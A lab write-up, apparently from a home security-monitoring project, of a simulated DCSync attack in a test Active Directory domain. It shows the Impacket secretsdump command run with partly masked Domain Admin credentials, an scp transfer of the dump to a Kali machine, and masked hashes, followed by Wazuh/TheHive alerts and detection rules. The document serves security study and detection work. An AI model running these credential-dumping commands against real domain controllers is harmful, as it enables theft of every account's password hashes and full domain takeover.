




# Stage 14 — DCSync

> **Status:** Complete — evidence attached  
> **Case:** [Case 02](../../04-Investigation/Cases/case-02-lateral-movement.md)  
> **Investigation:** [Stage 14](../../04-Investigation/Stages/stage-14-dcsync.md)  
> **Evidence:** [attack](../Attack-Screenshots/45.png) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/12.png)

---

## Objective

Simulate a Domain Controller to replicate and dump sensitive Active Directory account credentials directly from the Active Directory database (`NTDS.dit`) via the Microsoft Directory Replication Service Remote Protocol (MS-DRSR / DRSUAPI). Using the compromised `HANK_SHERMAN` Domain Administrator credentials, extract password hashes for all domain accounts, specifically targeting the built-in `Administrator` (RID 500) and `krbtgt` (RID 502) accounts.

---

## Commands

```bash
# Step 1: Execute DCSync from DVWA pivot host using compromised Domain Admin credentials against Domain Controller (192.168.56.10)
python3 /usr/local/bin/secretsdump.py ad.lab/HANK_SHERMAN:'Passw***123'@192.168.56.10 -outputfile /tmp/dcsync_output

# Step 2: Transfer extracted NTDS database dump (240KB) from DVWA pivot to Kali attack machine via SCP
scp root@192.168.56.30:/tmp/dcsync_output.ntds /tmp/dcsync_output.ntds

# Step 3: Inspect the head of the extracted NTDS credentials file on Kali
head dcsync_output.ntds
```

---

## What happened

Armed with valid Domain Administrator credentials for `HANK_SHERMAN` (`Passw***123`) obtained through Kerberoasting in Stage 13, the adversary launched Impacket's `secretsdump.py` from the Linux pivot host (`192.168.56.30`) targeting Domain Controller `PC-DC.ad.lab` (`192.168.56.10`).

1. **Replication Privileges & Protocol Invocation:**  
   Because the `HANK_SHERMAN` account is a member of `Domain Admins`, it inherently holds the extended rights "Replicating Directory Changes" (`DS-Replication-Get-Changes`) and "Replicating Directory Changes All" (`DS-Replication-Get-Changes-All`). Impacket leveraged the DRSUAPI protocol to masquerade as an authentic Domain Controller requesting directory replication.

2. **Dumping Remote Registry and SAM:**  
   The script started the `RemoteRegistry` service on the target Domain Controller, retrieved the system `bootKey` (`0x4b2***b9c`), and dumped local SAM database hashes for local accounts (`Administrator:500` and `Guest:501`).

3. **Active Directory NTDS Synchronization:**  
   Using DRSUAPI calls (`DsGetNCChanges`), `secretsdump.py` synchronized the Active Directory database (`NTDS.dit`) over network RPC, extracting NTLM and LM password hashes, Kerberos keys, and cleartext history for all user and computer objects in the domain. The full output was written to `/tmp/dcsync_output.ntds` (240 KB).

4. **Data Exfiltration & Hash Inspection:**  
   The database dump was transferred to Kali via SCP. Running `head dcsync_output.ntds` revealed the extracted credentials for high-value domain identities:
   - **Administrator (RID 500):** `Administrator:500:aad3b***4ee:cc814***9fb:::`
   - **Guest (RID 501):** `Guest:501:aad3b***4ee:31d6c***9c0:::`
   - **krbtgt (RID 502):** `krbtgt:502:aad3b***4ee:611a8***f60:::`
   - **win10 (RID 1105):** `ad.lab\win10:1105:aad3b***4ee:2aaa5***929:::`
   - **Other Domain Accounts:** `SAMANTHA_ARNOLD` (`c9429***2d4`), `ALTON_HODGES` (`90846***5ec`), `WILDA_ALFORD` (`453bd***af1`), `ALDEN_ATKINSON` (`67127***4e3`), `GREGORY_TRUJILLO` (`9914b***b75`), `LILY_GRAHAM` (`b4020***181`).

The extraction of the `Administrator` NTLM hash (`cc814***9fb`) immediately enables Pass-the-Hash remote execution in Stage 15. Crucially, the capture of the `krbtgt` account hash (`611a8***f60`) gives the attacker complete cryptographic ownership of the Kerberos ticketing system, paving the way for Golden Ticket forgery.

---

## Evidence

### Attack Screenshots


*Figure 14.1: Executing `secretsdump.py` from DVWA pivot host using `HANK_SHERMAN` Domain Admin credentials against `192.168.56.10`, initiating DRSUAPI directory replication.*


*Figure 14.2: Exfiltrating the 240KB `dcsync_output.ntds` credential dump from DVWA to the Kali attack machine.*


*Figure 14.3: Viewing dumped NTLM hashes from `dcsync_output.ntds`, including the built-in Administrator (RID 500) and krbtgt (RID 502) hashes.*

### Alert Screenshots


*Figure 14.4: TheHive alert detail capturing Wazuh Rule 5715 triggered by SSH access to the DVWA pivot during the DCSync extraction routine.*

---

## Alert observed

| Source | Rule | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Wazuh (Pivot Host) | sshd: authentication success (Interactive Pivot Session) | Rule 5715 (Level 8) | `[2x] [DVWA] Logon activity: ROOT @ 192.168.232.135` (`14.png`) | Medium | DETECTED (Pivot Alerted) |

### Detection Analysis

- **Pivot Telemetry (TheHive Alert):** Wazuh Rule 5715 logged the administrative SSH session on `192.168.56.30` used to initiate `secretsdump.py` and transfer the 240KB NTDS dump to Kali. This generated the alert displayed in Figure 14.4 (`14.png`).
- **Domain Controller Telemetry (Local Audit):** Domain Controller `PC-DC.ad.lab` logged **Windows Security Event ID 4662** ("An operation was performed on an object") in `Security.evtx` recording the replication rights invocation. Note that while EID 4662 was captured in local DC event logs, it did not trigger an alert $\ge 8$ in Wazuh, so the alert routed to TheHive was the pivot SSH session:
  - **Account Name:** `HANK_SHERMAN`
  - **Object Server:** `DS`
  - **Access Mask:** `0x100` (Control Access)
  - **Properties / Access Request:** Included replication GUIDs:
    - `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes)
    - `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` (DS-Replication-Get-Changes-All)
  - **Client IP / Source:** `192.168.56.30` (A Linux host not recognized as a Domain Controller computer object).

---

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Credential Access | OS Credential Dumping | T1003 | DCSync (T1003.006) |

---

## Detection opportunities

1. **Replication Rights Auditing (Windows Event ID 4662):**
   - Configure Advanced Audit Policy: `Audit Directory Service Access` -> `Success`.
   - Create a SIEM/Sigma rule matching Event ID 4662 where `Properties` contains:
     - `{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}` (DS-Replication-Get-Changes)
     - `{1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}` (DS-Replication-Get-Changes-All)
     - `{89e4b325-ac78-11d1-8780-00c04fc2dcd2}` (DS-Replication-Get-Changes-In-Filtered-Set)
   - **Whitelist:** Filter out legitimate Domain Controllers (computer accounts ending in `$` located in the Domain Controllers OU). Any user account or non-DC IP requesting these rights is an immediate, high-fidelity indicator of DCSync.

2. **Network Protocol Detection (Suricata / Zeek):**
   - Detect MS-DRSR / DRSUAPI RPC traffic: Monitor for `DsGetNCChanges` interface UUID `e3514235-4b06-11d1-ab04-00c04fc2dcd2` originating from any IP that is not a known Domain Controller.
   - Flag RPC endpoint mapper binds on TCP port 135 connecting to replication interfaces from unauthorized subnets.

3. **Remote Registry and Service Manipulation:**
   - Detect Windows System Event ID 7036 / 7045 indicating the `RemoteRegistry` service changed to running state, initiated remotely via RPC/SMB.

---

## Notes

- DCSync is a feature, not an exploit: it uses documented Microsoft Active Directory replication protocols designed for domain controller synchronization. Therefore, it does not execute custom code on the target DC.
- Possession of the `krbtgt` hash (`611a8***f60`) represents the ultimate privilege escalation threshold in Active Directory, concluding **Case 02 (Lateral Movement)** and enabling **Case 03 (Domain Compromise & Persistence)**.
- Stage 15 directly leverages the extracted `Administrator` NTLM hash (`cc814***9fb`) for Pass-the-Hash execution.
